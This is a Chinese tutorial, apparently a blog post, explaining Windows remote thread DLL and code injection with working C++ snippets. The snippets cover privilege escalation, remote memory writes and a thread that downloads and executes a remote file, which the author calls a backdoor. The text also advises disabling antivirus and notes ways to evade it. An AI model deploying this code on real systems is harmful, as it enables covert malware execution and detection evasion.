






###### 远程线程注入基本原理  
   远程线程注入——相信对Windows底层编程和系统安全熟悉的人并不陌生，其主要核心在于一个Windows API函数CreateRemoteThread，通过它可以在另外一个进程中注入一个线程并执行。在提供便利的同时，正是因为如此，使得系统内部出现了安全隐患。常用的注入手段有两种：一种是远程的dll的注入，另一种是远程代码的注入。后者相对起来更加隐蔽，也更难被杀软检测。本文具体实现这两种操作，在介绍相关API使用的同时，也会解决由此引发的一些问题。  
    顾名思义，远程线程注入就是在非本地进程中创建一个新的线程。相比而言，本地创建线程的方法很简单，系统API函数CreateThread可以在本地创建一个新的线程，其函数声明如下：  
```c++
HANDLE WINAPI CreateThread(
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    SIZE_T dwStackSize,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    DWORD dwCreationFlags,
    PDWORD lpThreadId
);
```
   这里最关心的两个参数是lpStartAddress和lpParameter，它们分别代表线程函数的入口和参数，其他参数一般设置为0即可。由于参数的类型是LPVOID，因此传入的参数数据需要用户自己定义，而入口函数地址类型必须是LPTHREAD_START_ROUTINE类型。LPTHREAD_START_ROUTINE类型定义为：  
```c++
   typedef DWORD (WINAPI *PTHREAD_START_ROUTINE)(LPVOID lpThreadParameter);
   typedef PTHREAD_START_ROUTINE LPTHREAD_START_ROUTINE;
```
   按照上述定义声明的函数都可以作为线程函数的入口，和CreateThread类似，CreateRemoteThread的声明如下：   
```c++
HANDLE WINAPI CreateRemoteThread(
    HANDLE hProcess,
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    SIZE_T dwStackSize,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    DWORD dwCreationFlags,
    LPDWORD lpThreadId
);
```
  可见该函数就是比CreateThread多了一个参数用于传递远程进程的打开句柄，而我们知道打开一个进程需要函数OpenProcess，其函数声明为：  
```c++
HANDLE WINAPI OpenProcess(
    DWORD dwDesiredAccess,
    BOOL bInheritHandle,
    DWORD dwProcessId
);
```
   第一个参数表示打开进程所要的访问权限，一般使用PROCESS_ALL_ACCESS来获得所有权限，第二个参数表示进程的继承属性，这里设置为false，最关键的参数是第三个参数——进程的ID。因此在此之前必须获得进程名字和PID的对应关系，TlHelp32.h库内提供的函数CreateToolhelp32Snapshot、Process32First、Process32Next提供了对当前进程的遍历访问，使用这里有段公用代码可以使用：  
```c++
//获取进程name的ID
DWORD getPid(LPTSTR name)
{
    HANDLE hProcSnap=CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS,0);//获取进程快照句柄
    assert(hProcSnap!=INVALID_HANDLE_VALUE);
    PROCESSENTRY32 pe32;
    pe32.dwSize=sizeof(PROCESSENTRY32);
    BOOL flag=Process32First(hProcSnap,&pe32);//获取列表的第一个进程
    while(flag)
    {
        if(!_tcscmp(pe32.szExeFile,name))
        {
            CloseHandle(hProcSnap);
            return pe32.th32ProcessID;//pid
        }
        flag=Process32Next(hProcSnap,&pe32);//获取下一个进程
    }
    CloseHandle(hProcSnap);
    return 0;
}
```
  因此，按照以上的方式，使用getpid获取指定名称进程pid，传入OpenProcess打开进程获取进程句柄。但是你会发现这时候进程是无法打开的，或者说进程不能以完全访问的权限打开，因此必须`提高本地程序的权限`，这是远程注入线程引发的第一个问题，这里也有一段通用代码：  
```c++
//提升进程权限
int EnableDebugPrivilege(const LPTSTR name)
{
    HANDLE token;
    TOKEN_PRIVILEGES tp;
    //打开进程令牌环
    if(!OpenProcessToken(GetCurrentProcess(),
        TOKEN_ADJUST_PRIVILEGES|TOKEN_QUERY,&token))
    {
        cout<<"open process token error!\n";
        return 0;
    }
    //获得进程本地唯一ID
    LUID luid;
    if(!LookupPrivilegeValue(NULL,name,&luid))
    {
        cout<<"lookup privilege value error!\n";
        return 0;
    }
    tp.PrivilegeCount=1;
    tp.Privileges[0].Attributes=SE_PRIVILEGE_ENABLED;
    tp.Privileges[0].Luid=luid;
    //调整进程权限
    if(!AdjustTokenPrivileges(token,0,&tp,sizeof(TOKEN_PRIVILEGES),NULL,NULL))
    {
        cout<<"adjust token privilege error!\n";
        return 0;
    }
    return 1;
}
```
  通过调用EnableDebugPrivilege(SE_DEBUG_NAME)提高本地程序权限后就可以打开系统进程了。然后传入进程句柄到CreateRemoteThread注入远程进程，但是遗憾的是远程线程无法运行，这里就引发了第二个问题。CreateRemoteThread和CreateThread并不仅仅是多了一个进程句柄参数那么简单，其中更大的区别是它们的`函数入口和参数的区别`。CreateThread是创建本地线程，函数入口地址和参数都在本地进程，这很好理解，但是CreateRemoteThread创建的是其他进程的线程，它的入口地址和参数就该在其他进程中。如果强行把本地地址和参数传入，虽然编译上能通过，但是运行时侯被注入的进程会查找和本地进程相同值的地址和参数地址，当然结果可想而知，这就像拿着一号公寓201的钥匙去开二号公寓201的门一样。（或许在这里读者会有这个想法，可不可以远程注入本地进程呢？虽然这么做没什么意义，希望有兴趣的读者可以试一试，看看能否成功。）  
  既然这样，那么如何告诉远程线程需要执行的代码和地址呢？继续上边那个例子，假设在一号公寓201房间内可以使用高功率电器，但是一号公寓检查严格，一旦有此情况立马被禁止。而二号公寓戒备很松，所以有人想办法在二号公寓新准备一个空的房间专门使用高功率电器，这样即回避了检查，也达到了目的。这里一号公寓相当于本地进程，二号公寓相当于系统进程，使用高功率电器相当于黑客的行为，准备新的房间相当于开辟新的存储空间，禁止使用高功率电器相当于杀软的查杀。那么这里就需要关心如何在二号公寓新建一个房间，这里系统有两个API函数  
  VirtualAllocEx和WriteProcessMemory，顾名思义，前者在远程进程中申请一段内存用于存储数据或者代码——准备房间，后者在申请的空间内写入数据或者代码——准备高功率电器。参看一下他们的声明就一目了然：  
```c++
LPVOID WINAPI VirtualAllocEx(
    HANDLE hProcess,
    LPVOID lpAddress,
    SIZE_T dwSize,
    DWORD flAllocationType,
    DWORD flProtect
);
```
  VirtualAllocEx指定了进程和申请内存块的大小以及内存块的访问权限，并且返回申请后的内存首地址——这个地址是远程进程中的地址，在本地进程没有任何意义。一般函数调用形式如下：  
```c++
char*    procAddr=(char*)VirtualAllocEx(hProc,NULL,1024,MEM_COMMIT,PAGE_READWRITE);
```
  这样就在进程hProc中申请到了一个1024字节大小的可读可写的内存块。  
```c++
BOOL WINAPI WriteProcessMemory(
    HANDLE hProcess,
    LPVOID lpBaseAddress,
    LPCVOID lpBuffer,
    SIZE_T nSize,
    SIZE_T * lpNumberOfBytesWritten
);
```
  这个函数和memcpy功能和形式都很类似，本质上就是缓冲区的复制，将数据lpBuffer[nSize]的数据复制到hProcess:lpBaseAddress[nSize]中去。  
  这样CreateRemoteThread的参数就很好设置了，线程入口函数地址找不到——申请一段空间放上代码，返回代码首地址；参数地址找不到——申请一段空间放上数据，返回数据首地址；这样房间，电器，原料都已齐全了，使用CreateRemoteThread启动电器就可以加工了！这种思维很合乎逻辑，但是实现起来较为复杂，这是稍后介绍的代码注入方式。不过在这之前我们需要看一种更简单的dll注入方式，说起dll我们需要声明两点关键的内容：  

###### 远程线程DLL注入  
  首先，我们需要知道Win32程序在运行时都会加载一个名为kernel32.dll的文件，而且Windows默认的是同一个系统中dll的文件加载位置是固定的。我们又知道dll里有一系列按序排列的输出函数，因此这些函数在任何进程的地址空间中的位置是固定的！！！例如本地进程中MessageBox函数的地址和其他任何进程的MessageBox的地址是一样的。  
  其次，我们需要知道动态加载dll文件需要系统API LoadLibraryA或者LoadLibraryW，由于使用MBCS字符集，这里我们只关心LoadLibraryA，而这个函数正是kernel32.dll的导出函数！！！因此我们就能在本地进程获得了LoadLibraryA的地址，然后告诉远程进程这就是远程线程入口地址，那么远程线程就会自动的执行LoadLibraryA这个函数。这就像我们已经知道二号公寓和一号公寓一样，在201房间都可以使用高功率电器，那何必还要重新造一个新的房间放电器呢。  
  高功率电器可以搞定，但是即使煮饭也总要有米和水的。函数可以伪造代替，但是参数是不能伪造代替的。因此用前边的方法，我们申请一个新的房间专门存放粮食，待用到的时候取便是。我们知道LoadLibraryA的参数就是要加载的dll的路径，为了保险起见，我们把要注入的dll的路径字符串注入到远程进程空间中，这样返回的地址就是LoadLibraryA的参数字符串的地址，将这两个地址分别作为入口和参数传入CreateRemoteThread就可以使得远程进程加载我们自己的dll了。  
  说到这里，或许有人疑问这么折腾了半天，举了这么多例子，仅仅加载了一个自定义dll进去，并没有做任何“想做”的事情。其实，这里已经能做基本上任何事情了。因此dll是我们自己写的，那么做什么事情就有我们自己来定，可能有人最疑惑的莫过于如何在加载dll以后立即执行我们真正想执行的代码。这里就需要看一下一个简单DLL工程。  
  使用VC或者VS创建一个Win32 DLL工程，源代码可以这么写：  
```c++
BOOL APIENTRY DllMain(HANDLE hModule,DWORD ul_reason_for_call,LPVOID lpReserved)
{
    switch(ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH://加载时候
        //do something
        break;
    default:
        break;
    }
    return TRUE;
}
```
  看到这个函数相信很多人一目了然了，在switch-case语句的case DLL_PROCESS_ATTACHE条件下就是执行用户自定义代码的地方，它执行的时机就是在DLL被任何一个进程加载的时候，这也就解决了第三个`用户代码启动`的问题，至于写什么有你自己决定。其实DLL项目这个主函数不是必须的，因为dll的目的是导出函数，不过这里我们不用这些知识，感兴趣的读者可以参考其他dll开发资料。  
  从开始叙述到这里就是一个DLL远程注入的所有的细节的描述了，相信读者通过实验就可以验证。但是当你运行的时候你会发现360，金山，瑞星这群杀软就开始忙活个不停了，不断的提示你木马后门的存在，本人强烈建议此时你把它们轻轻的关掉！从这里也可以看出一个问题，DLL远程注入的方式已经被多数杀软主动拦截了，它们会把不可信的dll统统拉为黑名单，作为后门程序处理。这样不得不让我们回归原始，放弃dll回到我们最初的设想——自己注入代码，这种方式杀软的提示效果如何呢，我们拭目以待。  

###### 远程线程代码注入  
  既然使用LoadLibraryA加载DLL执行启动代码并不能达到很好的效果，那么我们就想办法直接写代码直接让远程线程执行。  
  这里主要关心的就是代码的问题，因为线程函数参数传递方式和dll路径的方法大同小异，代码的注入却和数据的注入有着很多不同。  
  首先，这是第四个问题，`注入代码如何书写`。通过类比CreateThread的函数入口，我们自然能想到，使用和CreateThread同样形式的函数定义即可，即形为LPSECURITY_ATTRIBUTES的函数定义。但是这里最关键的不是函数的定义形式，而是函数内部代码的限制。由于这段代码，或者叫注入函数，是要“拷贝”到其他进程空间去的，因此这个函数不能使用任何全局变量、不能使用堆空间、不能调用本地定义的函数、不能调用一些库函数等等。经测试，最保险的方式是：函数使用栈空间的局部变量是没有问题的，因为汇编代码将局部变量翻译为相对地址；函数使用系统的API是没有问题的，最可靠的是使用kernel32.dll内的函数，万一使用其他dll库的函数需要使用kernel32.dll导出函数LoadLibraryA加载对应的dll后，再使用kernel32.dll的导出函数GetProcAddress获取函数地址，比如MessagBox函数。虽然限制很多，但是足可以写出功能很强大的代码，因为Windows的API可以自由的使用！！！  
  其次，即第五个问题，`注入代码如何定位`。定位包含两层含义：代码的起始位置和代码的长度。有人说这个简单，起始位置就是函数名的值，长度虽然不好确定，就给一个比较大的值就可以了。这个思路是没有问题的，但是实际上这么做并不一定成功！问题不在代码长度上，而是出现在代码的起始位置。为此我们专门做一个实验：  
  我们写一个最简单的C程序：  
    
  程序很简单，就是输出main函数的地址，通过调试我们看到了输出结果是0x003d1131，但是我们监视main符号的值为0x003d1380！！！如果你也是第一次看到这个情况，相信你也会和我当初一样惊讶，因为我们一般的思维是符号的值应该和输出结果是一致的。为此，我们查看一下反汇编：  
    
  地址0x011513A0出的push指令就是传递main符号的值作为printf的参数，而我们看到main函数的起始地址为0x01151380，但是这里传递的值为@ILT+300=0x1151131，而符号名被映射为_main，@ILT和_main是怎么回事？  
    
  原来从@ILT+0开始就是一系列的jmp指令，而_main就是一条jmp指令的地址，jmp的目的地址正好是main=0x1151380！这里我们可以猜测，编译器为函数定义维护了一张表，名字叫ILT，所有对函数名的直接访问都被映射为修饰后的函数名（一般都是原名字前加上下划线），在函数地址变化后不需要修改任何对函数调用的指令代码，只需要修改这个表就可以了。那么ILT究竟叫什么名字呢？上网查一下资料发现它可能叫作Incremental Linking Table（增量链接表），其实名字叫什么不重要，重要的我们发现当初的结果不一致是由于编译器的设置导致的。后来，我们发现原来这种设置是Debug模式下独有的，如果将工程设置为Release模式就不会出现这种情况了。  
  那么我们如何处理Debug模式下的程序呢，其实方法还是有的。我们观察ILT中每个跳转指令的结构，我们发现它们都是相对跳转指令（就是jmp到相对于下一条指令地址的某个偏移处）。因此我们可以通过对指令的解析计算出main函数的真正地址。  
  参考_main处的jmp指令，根据指令的二进制含义，我们知道E9是jmp指令的操作码，其后边跟着32位的立即数就是相对地址，由于x86是小字节序的，因此这个相对偏移应该是0x0000024A。_main位置的指令的下一条指令地址为0x01151136，那么真正的main符号地址=0x01151136+0x0000024A=0x01151380，正好是main函数定义的位置！具体转化代码如下：  
```c++
//将函数地址转换为真实地址
unsigned int getFunRealAddr(LPVOID fun)
{
    unsigned int realaddr=(unsigned int)fun;//虚拟函数地址
    // 计算函数真实地址
    unsigned char* funaddr= (unsigned char*)fun;
    if(funaddr[0]==0xE9)// 判断是否为虚拟函数地址，E9为jmp指令
    {
        int disp=*(int*)(funaddr+1);//获取跳转指令的偏移量
        realaddr+=5+disp;//修正为真实函数地址
    }
    return realaddr;
}
```
  需要注意的是这个转换函数只能针对本地定义的函数，如果是系统的库函数就无能为力了，因为库函数并没有存在ILT中。  
  此处还有一个小细节，我们观察编译器在Debug下生成的函数的结尾处会有一连串很长的0xCC数据，即指令int 3，我猜测可能是为了对齐或者防止函数崩溃PC指针跳到非法位置来强制中断，原因暂时不追究，但是这个特征可以方便我们计算函数的长度——天然的函数结束标记！  
  计算函数长度的代码可以这么写：  
```c++
int ProcSize=0;//实际代码长度，存放线程函数代码
char*buf=(char*)getFunRealAddr(ThreadProc);
for(char*p=buf;ProcSize<2048;ProcSize++,p++)//扫描到第一组连续的8个int 3指令作为函数结束标记
{
    if((unsigned long long)*(unsigned long long*)p
            ==0xcccccccccccccccc)//中断指令int 3
    {
        break;
    }
}
```
  然后，当我们尝试执行注入的代码时候，却总是出现异常。使用OllyDbg调试被注入的进程也的确看到代码被写入了指定的地址空间。这时候就需要考虑到内存页的权限了，因为之前使用VirtualAllocEx申请内存的属性是可读可写，但是对于存放代码的`内存必须设置为可读可写可执行`才可以！！！这个细节作为第六个小问题。  
  这里可以在申请的时候设置：  
```c++
VirtualAllocEx(rProc,NULL,ProcSize,MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
  也可以使用函数VirtualProtectEx进行属性更改：  
```c++
VirtualProtectEx(rProc,procAddr,ProcSize,PAGE_EXECUTE_READWRITE,&oldAddr);
```
  最后，按照上边的要求写出合理的代码，计算出正确的函数起始地址和大小，然后申请空间存放代码和参数，设置代码空间属性为可执行，使用CreateRemoteThread启动函数执行，但是还是会出现异常，下边是触发异常的代码。  
```c++
//线程参数结构
struct RemotePara
{
    TCHAR url[256];//下载地址
    TCHAR filePath[256];//保存文件路径
    DWORD downAddr;//下载函数的地址
    DWORD execAddr;//执行函数的地址
};
DWORD WINAPI ThreadProc(LPVOID lpara)
{
    RemotePara*para=(RemotePara*)lpara;
    typedef UINT (WINAPI*winExec)(LPTSTR cmdLine,UINT cmdShow);//定义WinExec函数原型
    typedef UINT (WINAPI*urlDownloadToFile)(LPUNKNOWN caller,LPTSTR url,LPTSTR fileName
        ,DWORD reserved,LPBINDSTATUSCALLBACK sts);//定义URLDownloadToFile函数原型

    urlDownloadToFile download;
    download=(urlDownloadToFile)para->downAddr;//获取download函数地址
    winExec exe;
    exe=(winExec)para->execAddr;//获取exe函数地址
    
    download(0,para->url,para->filePath,0,NULL);//下载文件
    exe(para->filePath,SW_SHOW);//执行下载的文件

    return 1;
}
```
  代码的含义很明确，参数中传递进来了事先已经计算好的API函数URLDownloadToFile和WinExec的地址以及需要的路径参数，线程函数执行时从指定地址下载exe文件并执行之，这是一个典型的后门启动。这里引出第七个问题，系统总是执行下载后触发异常，如果删除下载文件函数的调用，直接执行却能够成功，这也就说明该`线程函数只能完成一次API调用`。通过大量的分析可以确定这种异常是在函数调用后触发的，而且导致了栈的崩溃。这里依旧查看反汇编：  
    
    我们发现在下载函数被调用结束后编译器却调用了一个名为_RTC_CheckEsp的函数，这个函数而且还存在ILT表有映射结构（在ILT偏移520处）。因此它的地位应该和本地定义的函数是相同的，而我们又知道注入代码是不能调用本地函数的，这就有问题了，因为这段指令call 0xDA120D在另一个进程空间就不知道是什么了，出现异常是很正常的事情。为了保证程序的正常执行，这里有两种做法，由于这个函数在ILT是有对应结构的，那么如果将项目修改为Release版本，那么这个检查应该就会消失了，是不是这样呢？  
      
    果然在预料之中，Release的优化后的代码已经很晦涩了，那个奇怪的函数调用就这么被删除了。或许你和我一样好奇这个函数存在的意义，通过查阅资料我们发现这个是运行时检查的函数，透过它的名字可以看出端倪，主要检查ESP寄存器的值，看来是保护栈的函数，在编译器设置中是可以关闭这个开关的，这也就为Debug的程序提供了一个删除运行时检查的方案。  
      
      只要我们把运行时检查设置为默认值就可以关闭这个开关了。你可以试试切换为Release版本，这个时候这个值也被设置为默认值了。  

###### 远程线程注入技术总结  
通过以上的介绍和实验，我们可以总结如下：  

* 远程线程注入主要目的是通过在系统进程中产生远程线程执行用户代码，而通过这种方式可以很好的实现本地进程的“隐藏”——其实不存在本地进程，因为注入线程后本地进程结束。
* 使用DLL的注入的方式比较简单，用户功能在DLL中实现，但很容易被杀软作为后门程序查杀，隐蔽性比较差。
* 使用代码注入方式比较复杂，考虑的问题较多，比如代码页属性，代码位置和大小和代码的编写格式等。但是经实验测试发现，除了WinExec这样的敏感API被杀软拦截外，一般的不太敏感的危险操作，比如下载，都会正常的执行，这也给恶意用户有了可乘之机。